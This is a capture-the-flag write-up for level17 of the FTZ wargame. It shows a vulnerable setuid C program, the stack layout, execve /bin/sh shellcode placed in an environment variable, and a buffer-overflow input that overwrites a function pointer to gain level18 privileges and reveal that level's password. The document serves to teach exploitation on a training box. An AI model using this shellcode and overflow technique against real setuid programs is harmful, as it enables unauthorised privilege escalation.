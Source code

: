 # Level17

## This level's goal
- Function pointer modulation with the shell code

***

```
[level17@ftz level17]$ ls -l
-rwsr-x---    1 level18  level17     13853 Mar  8  2003 attackme
-rw-r-----    1 root     level17       191 Mar  8  2003 hint

[level17@ftz level17]$ cat hint

#include <stdio.h>

void printit() {
  printf("Hello there!\n");
}

main()
{ 
  int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  setreuid(3098,3098);
  call();
}
```

The hint seems almost same as level16, but I need to change printit() to egg shell code to exploit this level.

In level16, we could understand the memory size.

buf(20bytes) + dummy(20bytes) + \*printit(4bytes,0xbffff048) + crap(4bytes,0xbffff04c) + dummy(8bytes) + SPF(4bytes) + RET(4bytes).

I will make the env variable of EGG(shell code) and then made and run getegg.c (to get EGG's address).

```
[level17@ftz level17]$ export EGG=`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

[level17@ftz tmp]$ cat getegg.c
#include <stdlib.h>
main() {
        printf("EGG : %p", getenv("EGG"));
}

[level17@ftz tmp]$ gcc getegg.c -o getegg
[level17@ftz tmp]$ ./getegg
EGG : 0xbffffc8e
```

The shell code address is 0xbffffc8e, so the attack code will be 40bytes dummy strings + shell code's address(0xbffffc8e).

```
[level17@ftz level17]$ (python -c 'print "A"*40+"\x8e\xfc\xff\xbf"'; cat) | ./attackme

id
uid=3098(level18) gid=3097(level17) groups=3097(level17)

my-pass
Level18 Password is "why did you do it".
```
